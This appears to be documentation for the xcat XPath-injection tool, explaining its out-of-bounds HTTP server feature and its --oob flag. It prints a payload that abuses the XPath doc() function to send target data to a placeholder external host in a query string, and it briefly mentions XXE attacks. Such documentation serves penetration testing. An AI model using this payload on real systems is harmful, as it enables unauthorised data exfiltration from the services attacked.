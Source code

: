 # Out of bounds HTTP server

The out-of-bounds (OOB) server that xcat provides is a powerful way of drastically speeding up 
retrieval.

It works by abusing the XPath `doc()` function, which is used to read arbitrary local or network 
files. Using this method xcat will instruct the service to load an XML file from it's server, passing 
any data it wishes to retrieve in the query string:

`doc(concat('http://[external-host]/data/123?d=', func.encode_for_uri(TARGET EXPRESSION)))`

This requires that:

- You have an externally routable IP that the target server can connect to
- The XPath library is configured to load external documents (many default configurations allow this)
- The port is not blocked by any firewalls

To enable this feature simply pass the `--oob` flag to any xcat command.

The `--oob` flag should in a `host:port` format, and it is up to you to find a combination that works. 
To test this combination run `xcat detect` and check that the `oob-http` feature is enabled.

This can also be used to perform automated XXE attacks, however this functionality is currently not 
fully working.

## Demo

This shows xcat connecting to a local server and using the `--oob` flag to retrieve the document much 
faster than other methods.

<script id="asciicast-216047" src="https://asciinema.org/a/216047.js" async></script>
